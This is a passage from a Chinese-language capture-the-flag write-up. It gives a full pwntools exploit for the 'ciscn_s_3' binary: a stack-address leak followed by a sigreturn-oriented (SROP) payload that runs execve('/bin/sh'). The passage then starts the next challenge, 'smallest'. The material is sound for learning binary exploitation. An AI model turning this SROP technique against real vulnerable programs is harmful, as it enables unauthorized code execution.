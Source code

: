 >   payload如下
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./ciscn_s_3')

vuln       = 0x4004ED
syscall    = 0x400517
mov_rax_15 = 0x4004DA

# 获取栈地址
# vuln没有leave所以rbp不变, 返回地址为push rbp压入栈所以rsp和原来一样, buf地址不发生改变
payload1 = b'a'*0x10+p64(vuln)
p.send(payload1)
stack = u64(p.recv()[0x20:0x20 + 8]) - 0x148 # 本地调试偏移为0x148, buu远程是0x118

#SROP
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = stack
frame.rip = syscall
frame.rsi = 0
frame.rdx = 0

# 执行syscall调用rt_sigreturn函数设置寄存器的值然后执行59号系统中断(execve("/bin/sh", 0, 0))
payload2 = b'/bin/sh\0x00'.ljust(0x10, b'a') + p64(mov_rax_15) + p64(syscall) + bytes(frame)
p.send(payload2)
p.interactive()
```

### smallest
*   首先查看保护只开启了NX保护
![](./smallest_1.png)
*   代码非常简单, 只有一个start函数, 但是存在栈溢出